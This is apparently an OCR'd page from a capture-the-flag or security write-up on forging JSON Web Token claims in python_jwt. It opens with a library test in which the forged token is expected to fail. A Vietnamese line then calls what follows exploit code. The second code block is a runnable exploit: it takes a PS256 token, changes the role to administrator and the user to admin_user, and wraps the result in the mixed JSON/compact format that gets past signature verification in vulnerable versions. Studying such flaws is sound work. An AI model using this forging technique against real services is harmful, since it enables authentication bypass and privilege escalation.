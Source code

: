 ```python=
           """ Use mix of JSON and compact format to insert forged claims including long expiration """  
          [header, payload, signature] = topic.split('.')  
           parsed_payload = loads(base64url_decode(payload)) 
           parsed_payload['sub'] = 'bob'  
           parsed_payload['exp'] = 2000000000  
           fake_payload = base64url_encode((dumps(parsed_payload, separators=(',', ':'))))  
           return '{" ' + header + '.' + fake_payload + '.":"","protected":"' + header + '", "payload":"' + payload + '","signature":"' +signature + '"}' 
       class Verify(Vows.Context):  
           """ Check the forged token fails to verify """  
           @Vows.capture_error  
           def topic(self, topic):  
               """ Verify the forged token """  
               return jwt.verify_jwt(topic, generated_keys['PS256'], ['PS256'])  
           def token_should_not_verify(self, r):  
               """ Check the token doesn't verify due to mixed format being detected """  
               expect(r).to_be_an_error()  
               expect(str(r)).to_equal('invalid JWT format')
```

Đây là exploit code. 
```python=
from datetime import timedelta
from json import loads, dumps
import python_jwt as jwt
from pyvows import Vows, expect
from jwcrypto.common import base64url_decode, base64url_encode
from pprint import pprint
class ForgedClaims:
    def create(self):
        """ Generate token """
        # payload = {'sub': 'alice'}
        token = "eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTAxNDc1MTksImlhdCI6MTcxMDE0MzkxOSwianRpIjoiYmQtcW5GYnBqcUhpbEFSeXN5aGwyUSIsIm5iZiI6MTcxMDE0MzkxOSwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ.s569WtLjeq3NQSI9GXVDfTYJSUrxdEGtCBnxjHnwEa6UWwS6RNfLF-qMjvAc-GiqHzG1Wx1SQd1tsqIqnIF6zz9zXFQaSimFgnYE0HvUwaI_XhzBJA-ZxmrgetgJjbOhKBOopKIXmtUt-LPE2tsB3yr6SJe-C2RvFlTzrgQMDrOtRBJJiXfYne1QI4nnXUFY0XsNXCpKQIe6ELHNmeE-F6Fj5s1AJwUEBwWJNVnmw_s5mVbL1hvIE54e2mJg5VK8PfCLXx4u-ghVRgGDRkUza4UpgM8nrSmTj5d40iREyz9M6PDvi0TFhuVvlQStrpz0UId-uyL4-Vwp9UnTOSNBRA"
        return token
    def topic(self, topic):
        """ Use mix of JSON and compact format to insert forged claims including long expiration """
        [header, payload, signature] = topic.split('.')
        parsed_payload = loads(base64url_decode(payload))
        print(parsed_payload)
        parsed_payload['role'] = 'administrator'
        parsed_payload['user'] = 'admin_user'
        print(parsed_payload)
        # parsed_payload['exp'] = 2000000000
        fake_payload = base64url_encode((dumps(parsed_payload, separators=(',', ':'))))
        return '{"  ' + header + '.' + fake_payload + '.":"","protected":"' + header + '", "payload":"' + payload + '","signature":"' + signature + '"}'
claime__ = ForgedClaims()
jwt = claime__.create()
print(claime__.topic(jwt))
```
